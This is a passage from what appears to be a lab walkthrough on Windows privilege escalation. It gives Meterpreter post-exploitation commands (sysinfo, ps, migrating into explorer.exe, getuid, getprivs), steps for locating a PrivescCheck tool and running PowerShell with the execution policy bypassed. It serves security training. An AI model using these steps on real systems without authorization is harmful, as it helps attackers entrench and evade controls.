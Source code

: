 ```bash
sysinfo
```

If the current session is a 32-bit (x86) Meterpreter session and the system is 64-bit (x64), migrate to a 64-bit process (e.g., `explorer.exe`).

List the running processes:

```bash
ps
```

Identify the PID of a 64-bit process (e.g., `explorer.exe`) and migrate to it:

```bash
migrate 3624
```

Verify the current user identity:

```bash
getuid
```

List available privileges:

```bash
getprivs
```

---

#### 5. Navigating to the Privilege Escalation Check Tool

Navigate to the target directory where the privilege escalation check tool is located:

```bash
cd C:\
cd Users/student/Desktop/PrivescCheck
```

List the contents of the directory to ensure the tool is present:

```bash
dir
```

---

#### 6. Running PowerShell Scripts with Bypassed Execution Policy

To run PowerShell scripts, Windows has an execution policy that may prevent scripts from executing. To bypass this, use the following command:

```bash
powershell -ep bypass .\script.ps1
```

- `-ep bypass`: This option bypasses the PowerShell execution policy.
- `.\script.ps1`: Replace `script.ps1` with the name of the script you want to run.

---